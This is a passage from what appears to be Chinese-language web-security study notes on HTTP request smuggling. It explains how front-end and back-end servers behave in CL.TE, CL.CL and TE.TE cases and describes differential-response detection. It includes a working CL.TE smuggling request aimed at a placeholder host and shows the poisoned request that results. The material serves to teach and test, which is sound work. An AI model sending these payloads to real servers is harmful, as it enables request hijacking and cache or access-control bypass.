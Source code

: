 各场景的预期行为

1. **测试 CL.TE 场景**
   - **前端行为**：以 Content-Length 方式处理请求，转发给后端。
   - **后端行为**：后端因收到完整的结束标记（`0\r\n\r\n`）而按正常流程处理，并在缓冲区残留数据。
   - **结果**：**无延迟，但是如果你使用如上 payload 来测试 TE.CL，且目标存在 CL.TE 的话，会导致缓冲区残留数据（即：触发 CL.TE 漏洞）**。
2. **测试 CL.CL 场景**
   - **前端行为**：正常处理（按照 cl = 4）。
   - **后端行为**：正常处理（按照 cl = 4）。
   - **结果**：**无延迟**（前后端解析一致）。
3. **测试 TE.TE 场景**
   - **前端行为**：正常处理（正常识别结束标志）。
   - **后端行为**：正常处理（正常识别结束标志）。
   - **结果**：**无延迟**（前后端解析一致）。

注意一个小细节：测试 TE.CL 的 poc 是 CL.TE 环境下的 exp，如果场景存在 CL.TE 而你使用测试 TE.CL 的 poc 测试的话就会触发 CL.TE 漏洞，所以尽量先使用 CL.TE 的 poc 测试，然后再使用 TE.CL 的 poc 进行测试。

##### 使用差分响应测试 CL.TE 漏洞

差分响应测试漏洞原理，就是我们发送一个 attack 请求后，紧接着发送一个 normal 请求，然后观察 normal 请求是否被 attack 请求所干扰，如果 normal 请求跟预期的测试结果一样，说明存在 HTTP 请求走私。

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

如果存在漏洞，下一个数据包首部将被后端服务器拼接成如下数据包进行处理：

```
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

![image-20250410151118124](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250410151118124.png)

同时如果你使用计时技术测试 CL.TE 时，他会有非常长的延迟：

![image-20250410162529383](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250410162529383.png)
